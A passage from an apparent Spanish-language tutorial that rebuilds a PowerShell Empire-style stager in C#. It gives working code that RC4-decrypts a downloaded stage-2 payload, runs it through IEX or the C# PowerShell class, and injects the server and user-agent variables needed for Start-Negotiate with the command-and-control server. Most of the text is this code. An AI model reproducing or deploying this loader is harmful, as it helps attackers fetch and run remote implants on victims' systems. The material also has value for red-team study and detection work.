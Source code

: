 ```
	}
}
```

La última parte es responsable de unir todo junto. Podemos dividir el Join en 2 piezas, la 1ª es la parte de descifrado RC4 que utiliza el script de minimización de $R, los datos como argumento y la combinación de IV + K como el valor de descifrado. Puede ejecutar **& $R $data ($IV + $K)** solo para que pueda ver el RC4 en acción, y luego unir todo para finalmente hacer la ejecución Invoke-Execution (IEX).

```
//PowerShell Code
-Join[Char[]](& $R $data ($IV+$K))|IEX
 
// C# Code
// Combine the IV + Key (New random key each time)
byte[] IVK = new byte[iv.Length + K.Length];
iv.CopyTo(IVK, 0);
K.CopyTo(IVK, iv.Length);
 
// Decrypt the Message
byte[] decrypted = RC4.Decrypt(IVK, data_noIV);
 
// Convert the stage2 decrypted message from bytes to ASCII
string stage2 = System.Text.Encoding.ASCII.GetString(decrypted);
```

# Ejecución de C#

Para ejecutar código en C# podemos usar la clase PowerShell o las clases RunSpace y Pipeline, esto es porque el payload que descargamos de la etapa 2 está en PowerShell. Utilizaremos la clase PowerShell porque, por alguna razón, las clases RunSpace y Pipeline no me funcionaron. En PowerShell, lo ejecutamos usando Invoke-Execution o IEX.

```
// Create a PowerShell Object to execute the command 
PowerShell PowerShellInstance = PowerShell.Create();
 
// Add the Script Stage 2 to the Powershell Object
PowerShellInstance.AddScript(stage2);
 
// Execute the Script!
PowerShellInstance.Invoke();
```

Antes de usar el método Invoke(), necesitamos agregar dos variables a la ecuación, que son $ser y $u. Si observas el valor de los datos (stage 2), notarás que ejecuta una llamada de función de Start-Negotiate -s "$ser" -SK 'REPLACE_STAGING_KEY' -UA $u así que, necesitamos pasar las variables $ser y $u para obtener la ejecución, de lo contrario, obtendríamos un error.

```
// Create the variables $ser and $u which are part of the downloaded stage2
PowerShellInstance.Runspace.SessionStateProxy.SetVariable("ser", server);
PowerShellInstance.Runspace.SessionStateProxy.SetVariable("u", ua);
```
